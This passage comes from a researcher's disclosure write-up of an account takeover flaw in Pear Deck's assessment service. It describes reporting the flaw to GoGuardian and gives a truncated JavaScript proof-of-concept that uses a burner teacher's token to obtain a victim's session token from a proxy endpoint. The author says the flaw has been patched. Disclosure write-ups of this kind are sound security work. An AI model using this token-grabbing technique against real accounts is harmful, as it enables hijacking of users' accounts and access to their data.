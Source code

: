 With this, the exploit is complete. All you need is a burner teacher account and the email or user ID of the victim.

## Reporting

I decided to report this one, and this is my first writeup because this is also my first report. I worked with GoGuardian (owner of Edulastic/Pear Deck fleet) and provided them the info they wanted. This information wasn't available publicly until now, because it's patched now.

However, it seems that someone reported this vulnerablity before me, so I wasn't eligble for a reward or anything, but it's still very cool cus this was my first report.

## Video demonstration

I use the below scripts here. A lot is redacted because it does have some PII. In the video, I take over an account using just the victim's email; the victim was the GoGuardian staff's account so I could demonstrate the vulnerability.

NOTE: I was too lazy to redact the information within the video, if I end up wanting to add the full redacted video then I'll do it, but for now I'll just have a cropped GIF

![takeover_gif](https://i.postimg.cc/WbQVtCn1/discloze-1.gif)

Here's a video of the global email lookup script being used:

![lookup_gif](https://i.postimg.cc/TwWF8Yzj/discloze-2.gif)

## POCs/Scripts

I've tested the account takeover PoC and it was patched, I think they patched the global email search thing but I don't know and I haven't tested it. I'm putting the PoC scripts for the account takeover vulnerability. This is only for informative purposes, not to help anyone try to abuse the service.

Account takeover:
  
```js
(async function() {

    let INPUT_VICTIMID = "input teacher/victim ID here"
    let INPUT_GROUPID = "input group ID here" // this can really be any id since the API doesn't care about this, you can even put the victim's ID here
    let INPUT_AUTH = "input attacker's burner teacher auth JWT token here"


          let response = await fetch(`https://assessment.peardeck.com/api/user/proxy?userId=${INPUT_VICTIMID}&groupId=${INPUT_GROUPID}`, {
        "headers": {
          "accept": "application/json, text/plain, */*",
          "authorization": INPUT_AUTH
        },
        "method": "GET"
      })

          let token = await response.json()
      token = token.result.token

    if (token) {
        console.log(token)
        alert("Grabbed token successfully!");
        localStorage.clear();
        sessionStorage.clear();

        let userresp = await fetch("https://assessment.peardeck.com/api/user/me", {
          "headers": {
```